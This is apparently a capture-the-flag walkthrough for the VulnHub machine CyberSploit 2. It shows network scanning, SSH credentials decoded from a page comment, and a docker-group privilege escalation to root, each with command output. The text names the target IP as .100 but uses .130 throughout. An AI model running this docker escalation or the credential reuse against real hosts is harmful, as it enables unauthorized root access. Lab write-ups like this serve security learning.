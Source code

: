 # CYBERSPLOIT: 2

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:11       (Unknown: locally administered)
192.168.56.100  08:00:27:59:d4:92       PCS Systemtechnik GmbH
192.168.56.130  08:00:27:02:9a:95       PCS Systemtechnik GmbH
```

The ip address is `192.168.56.100`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.130
Nmap scan report for 192.168.56.130
Host is up (0.00030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: CyberSploit2
| http-methods: 
|   Supported Methods: POST OPTIONS HEAD GET TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:02:9A:95 (Oracle VirtualBox virtual NIC)
```

Check website and you will see this page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/45a02596-1a46-470f-ab06-86a7a3c7a84d)

also check page source and at the bottom you will see a comment :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5776a9b1-a9f3-4722-9dc5-3b4a84f2c97d)

try to decode the strings by `ROT47` and you will get :

```text
shailendra : cybersploit1
```

### 3.Gaining Shell

Now we have credentials to ssh to system

```bash
root@kali: ssh shailendra@192.168.56.130                      
The authenticity of host '192.168.56.130 (192.168.56.130)' can't be established.
ED25519 key fingerprint is SHA256:Ua5bYFU7jRE2PNF3w1hs2yrzHmyU7Q3FWj0xvMKZDro.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.130' (ED25519) to the list of known hosts.
shailendra@192.168.56.130's password: 
Last login: Wed Jul 15 12:32:09 2020

[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### 4.Privilege Escalation

Check group memebership and you see that user `shailendra` is member of docker group, so there is a PE path to get root on they system

use the below command, make sure the vm has access to internet :

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

after that you can go to `/mnt` and find the flag in `/root` :

```bash
mnt/root # cat flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks !
```

this is how you can get root on the machine :)


